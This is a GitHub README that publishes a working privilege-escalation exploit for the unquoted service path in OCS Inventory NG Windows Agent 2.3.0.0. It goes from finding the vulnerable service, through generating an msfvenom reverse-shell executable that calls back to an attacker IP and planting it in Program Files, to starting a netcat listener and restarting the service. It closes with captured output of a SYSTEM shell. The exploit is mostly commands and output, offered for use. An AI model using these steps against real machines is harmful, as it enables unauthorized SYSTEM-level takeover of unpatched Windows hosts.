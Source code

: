 <a target="_blank" href="https://img.shields.io/badge/plateform-windows-blue.svg" rel="noopener noreferrer">
    <img src="https://img.shields.io/badge/plateform-windows-blue.svg">
</a>
<a target="_blank" href="https://img.shields.io/badge/version-2.3.0.0-yellow" rel="noopener noreferrer">
    <img src="https://img.shields.io/badge/version-2.3.0.0-yellow">
</a>
<a href="" rel="nofollow">
    <img src="https://img.shields.io/badge/unquoted_service_path-red">
</a>

```bash
#####################################################################
#                                                                   #
#  Exploit Title: OCS Inventory NG 2.3.0.0 - Unquoted Service Path  #
#  Date: 2023/04/21                                                 #
#  Exploit Author: msd0pe                                           #
#  Vendor Homepage: https://oscinventory-ng.org                     #
#  Software Link: https://github.com/OCSInventory-NG/WindowsAgent   #
#  My Github: https://github.com/msd0pe-1                           #
#  Fixed in version 2.3.1.0                                         #
#                                                                   #
#####################################################################
```

<h3>OCS Inventory NG Windows Agent:</h3>
Versions below 2.3.1.0 contains an unquoted service path which allows attackers to escalate privileges to the system level.

<h2>Find the unquoted service path:</h2>

```bash
    > wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """

    OCS Inventory Service   OCS Inventory Service   C:\Program Files (x86)\OCS Inventory Agent\OcsService.exe   Auto
```

<h2>Get informations about the service:</h2>

```bash
    > sc qc "OCS Inventory Service"

    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: OCS Inventory Service
            TYPE               : 110  WIN32_OWN_PROCESS (interactive)
            START_TYPE         : 2   AUTO_START
            ERROR_CONTROL      : 1   NORMAL
            BINARY_PATH_NAME   : C:\Program Files (x86)\OCS Inventory Agent\OcsService.exe
            LOAD_ORDER_GROUP   :
            TAG                : 0
            DISPLAY_NAME       : OCS Inventory Service
            DEPENDENCIES       : RpcSs
                               : EventLog
                               : Winmgmt
                               : Tcpip
            SERVICE_START_NAME : LocalSystem
```

<h2>Generate a reverse shell:</h2>

```bash
    > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe -o OCS.exe
 ```

<h2>Upload the reverse shell to C:\Program Files (x86)\OCS.exe</h2>

```bash
    > put OCS.exe
    > ls
    drw-rw-rw-          0  Sat Apr 22 05:20:38 2023 .
    drw-rw-rw-          0  Sat Apr 22 05:20:38 2023 ..
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Common Files
    -rw-rw-rw-        174  Sun Jul 24 08:12:38 2022 desktop.ini
    drw-rw-rw-          0  Thu Jul 28 13:00:04 2022 Internet Explorer
    drw-rw-rw-          0  Sun Jul 24 07:27:06 2022 Microsoft
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Microsoft.NET
    drw-rw-rw-          0  Sat Apr 22 04:51:20 2023 OCS Inventory Agent
    -rw-rw-rw-       7168  Sat Apr 22 05:20:38 2023 OCS.exe
    drw-rw-rw-          0  Sat Apr 22 03:24:58 2023 Windows Defender
    drw-rw-rw-          0  Thu Jul 28 13:00:04 2022 Windows Mail
    drw-rw-rw-          0  Thu Jul 28 13:00:04 2022 Windows Media Player
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Windows Multimedia Platform
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Windows NT
    drw-rw-rw-          0  Fri Oct 28 05:25:41 2022 Windows Photo Viewer
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Windows Portable Devices
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 Windows Sidebar
    drw-rw-rw-          0  Sun Jul 24 08:18:13 2022 WindowsPowerShell
```

<h2>Start listener</h2>

```bash
    > nc -lvp 4444
```

<h2>Reboot the service/server</h2>

```bash
    > sc stop "OCS Inventory Service"
    > sc start "OCS Inventory Service"
```

OR

```bash
    > shutdown /r
```

<h2>Enjoy !</h2>

```bash
    192.168.1.102: inverse host lookup failed: Unknown host
    connect to [192.168.1.101] from (UNKNOWN) [192.168.1.102] 51309
    Microsoft Windows [Version 10.0.19045.2130]
    (c) Microsoft Corporation. All rights reserved.

    C:\Windows\system32>whoami

    nt authority\system
```